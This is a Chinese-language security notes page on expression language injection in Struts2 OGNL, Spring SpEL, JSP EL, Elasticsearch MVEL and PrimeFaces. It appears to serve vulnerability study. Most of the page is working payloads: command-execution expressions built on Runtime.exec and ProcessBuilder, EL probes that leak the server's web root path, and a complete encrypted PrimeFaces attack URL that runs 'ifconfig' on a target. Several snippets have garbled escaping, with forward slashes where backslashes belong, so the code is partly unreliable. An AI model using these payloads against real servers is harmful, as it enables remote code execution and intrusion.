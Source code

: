 ```yaml
---
title: 表达式注入
---
```

# 表达式注入

> 2013年4月15日Expression Language Injection词条在OWASP上被创建，而这个词的最早出现可以追溯到2012年12月的《Remote-Code-with-Expression-Language-Injection》一文，在这个paper中第一次提到了这个名词。

> 而这个时期，只不过还只是把它叫做远程代码执行漏洞、远程命令执行漏洞或者上下文操控漏洞。像Struts2系列的s2-003、s2-009、s2-016等，这种由OGNL表达式引起的命令执行漏洞。

> 随着Expression Language越来越广泛的使用，它的受攻击面也随着展开，所以我们觉得有必要开始针对这种类型的漏洞进行一些研究，Expression Language Injection在将来甚至有可能成为SQL注入一样的存在。

| Name | Injection |
|  ----  | ----  |
| Struts2  | OGNL |
| Spring  | SPEL |
| JSP  | JSTL_EL |
| Elasticsearch  | MVEL |

# 表达式注入实例

## Struts2 ——OGNL

### 基本介绍

Strust2漏洞可谓是从一开始就高危到现在，一开始归类为命令执行，现在规范化为表达式注入，其表达式格式为

```
  @[类名]@[方法名|值]
```

举例来说

```java
@java.lang.String@format('foo %s', 'test')
```

### 基本用法

```java
ActionContext AC = ActionContext.getContext();
Map Parameters = (Map)AC.getParameters();
String expression = "${(new java.lang.ProcessBuilder('calc')).start()}";
AC.getValueStack().findValue(expression));
```

相关漏洞有`s2-015`、`s2-016`，`s2-017`等等



## Spring——SPEL

SPEl为Spring框架的EL表达式，只在Spring框架中可用

### 基本用法

```java
java
String expression = "T(java.lang.Runtime).getRuntime().exec(/"calc/")";
String result = parser.parseExpression(expression).getValue().toString();
```

## JSP——JSTL_EL

JSTL_EL为JSP自带的表达式，适用于所有的Java Web

### 基本用法

```jsp
jsp  
<spring:message text=
"${/"/".getClass().forName(/"java.lang.Runtime/").getMethod(/"getRuntime/",null).invoke(null,null).exec(/"calc/",null).toString()}">
</spring:message> 
```

### 相关漏洞

> ```
> CVE-2011-2730
> ```

## Elasticsearch——MVEL

实例有CVE-2014-3120等，MVEL同OGNL和SPEL一样，具有通过表达式执行Java代码的强大功能

### 基本用法

```java
java import org.mvel.MVEL;  
public class MVELTest {  
        public static void main(String[] args) {  
              String expression = "new java.lang.ProcessBuilder(/"calc/").start();";  
               Boolean result = (Boolean) MVEL.eval(expression, vars);  
         }  
  } 
```

## Primefaces框架

### 验证代码

```java
${facesContext.getExternalContext().getResponse().getWriter().println("~~~elinject~~~")}${facesContext.getExternalContext().getResponse().getWriter().flush()}${facesContext.getExternalContext().getResponse().getWriter().close()}
```

### Web路径

```java
${facesContext.getExternalContext().getResponse().getWriter().println(request.getSession().getServletContext().getRealPath(/"//"))}${facesContext.getExternalContext().getResponse().getWriter().flush()}${facesContext.getExternalContext().getResponse().getWriter().close()}
```



### 加密后的Payload

```
uMKljPgnOTVxmOB%2BH6%2FQEPW9ghJMGL3PRdkfmbiiPkV9XxzneUPyMM8BUxgtfxF3wYMlt0MXkqO5%2BOpbBXfBSCSkb2z5x8Cb2P%2FDS2BUn7odA0GflWHV%2B9J8uLGYIqPK9HY85O%2BJw0u5X9urorJfQZKJihsLCV%2BnqyXHs8i6uh4iIboLA2TZUiTbjc3SfybUTvPCjRdyT6rCe6MPQGqHYkBiX3K7fGPuwJ2XNONXI9N2Sup5MWcUUo87FbX3jESvOq2Bs3sDKU4bW3aCGbhUcA2ZEgSxkLcW6VKDnXV5hxvz6J4a4E6P8HCy9v8%2BdrRzmtKbwczXk%2B9n8Lm2KYS%2Fk2TJKpeKjPg0t%2BAiKzTiqak%3D
```

### 调用Payload

```
http://xx.xx.xx.xx/javax.faces.resource/?pfdrt=sc&;ln=primefaces&;pfdrid=1acBqv16SJhfc30NLxL/NinZaDI%2BoHqk1xDbSI8qOl4%2BoXsKFyqJq3gv2IBc1S89q6G1POSSKDNlzHE/%2BnsMuZgTDALpyOstkBkFVJNc2U/B%2BoceOqnpF5YZoWtF0W7qGxsImsumut7GQoKKMQcbwwL4coE07x6Mn09hfy94tuiiy6S8S1vr8kPPYzrUC5AveiE9ls7dLDiaQripnC0Z71fB1xCjkxw8wjZt3om1PT9Wq8YAqkHuBIo/soFBvM1YDnJosELhjmfoJdAGBRfullXUfVw5xEg9ykFpLaKugkbDIBgXtv58Xu4BrT0d5MAQ8BOVwjzSodkdllYCAeUklCDWRfFtZDORdcAzXVxTRkEn%2Bnx7qAFh8NwK/sDsXz6U1Q2Q/ny1UaEMFM9qrgVmfX181HXWc4TuETxLqUohfreYLJLW%2BAxcxzciqqoKj%2Bht/KJ%2B%2BGfzuNoSs0E9i9N/AL5PALrdTRg%2BuweD3CMLZgLDITkMx4z7dmP2daw2B98nrKOLHtG6nYDcDmSfy8d8IKMZJvuq/WT7JLm0PJ3UqDyvzHHjrPCDpTFhMUmftFFvi4APBpT41slHYoRKDbJMvU/upvKyAsy5xQKJ5s6x%2B4F%2By9p8Icp1TQfMcqIPwMQkvsOs8i61m6i96dpmxpfZPWprcigaWMhJG8/iYRg7ZygegrmSbovLy5Tr3Mc9GODgdTx7v396NJ75yQyU4ETmYEhNxWTIoncK7MbyBcIWR/h1GjhCwwpquKRWLb3hal8DNJxubaKnxGa9mRNaQAZRr0s%2B3eo1jeino5O8CSQzla7ACpJc3867AAGxnWrnE/weJ20W3QKj6nIz/EAyx87aVIKs%2BQH3O4IGx%2BuiZ38TvMeg6jZpkZGiRNEUEuAoV6CWlMA%2BxM6BPvbPyWsqmdI8l%2ByFBhsoSpNhel2%2B0gxS5wWqZbRyi0rjPlOzUe8Xir9mlpuBZzrUIcbaYaE8PHQno1OZ/zaHx/GzAJakSRQ5YbKQ/W/OzkokDG3M79KSCtx2jN92PtISucY%3D&;cmd=ifconfig
```



